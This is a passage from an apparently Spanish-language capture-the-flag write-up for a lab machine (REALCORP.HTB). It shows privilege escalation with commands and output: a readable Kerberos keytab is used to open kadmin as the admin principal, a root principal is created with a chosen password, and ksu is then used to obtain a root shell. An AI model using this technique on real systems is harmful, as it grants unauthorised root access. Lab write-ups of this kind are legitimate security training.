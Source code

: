 Ahora  con kadmin nos vamos a autenticar en el principal "kadmin/admin@REALCORP.HTB"

```bash
[admin@srv01 ~]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin: 
```

Ahora desde aquí vamos a crear un nuevo "Principal" para sobreescribir la contraseña de root.

> cuando un usuario se autentica con Kerberos, su principal se verifica en el archivo `/etc/krb5.keytab` para asegurarse de que tiene acceso autorizado al sistema y a los servicios protegidos. Si la autenticación es exitosa, se crea una sesión de autenticación en el sistema, lo que permite al usuario acceder a los recursos protegidos y ejecutar tareas en el sistema.

```bash
kadmin:  add_principal root@REALCORP.htb
No policy specified for root@REALCORP.htb; defaulting to no policy
Enter password for principal "root@REALCORP.htb": 
Re-enter password for principal "root@REALCORP.htb": 
Principal "root@REALCORP.htb" created.
```

Le introducimos la credencial que queramos... Si ahora tratamos de usar ksu podemos autenticarnos con esa password y iniciar sesión como el usuario root.

```bash
[admin@srv01 ~]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 admin]#
```

Ya hemos pwneado la máquina, espero que te sirva!